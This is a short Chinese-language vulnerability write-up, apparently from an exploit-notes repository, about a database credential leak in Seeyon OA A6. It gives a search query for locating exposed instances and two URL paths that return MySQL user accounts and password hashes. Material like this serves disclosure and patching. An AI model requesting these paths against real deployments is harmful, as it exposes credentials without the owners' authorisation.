


# 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

当访问如下URL时执行了SQL语句 `select  *from mysql.user;` 进行查询并返回到页面中

```plain
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```




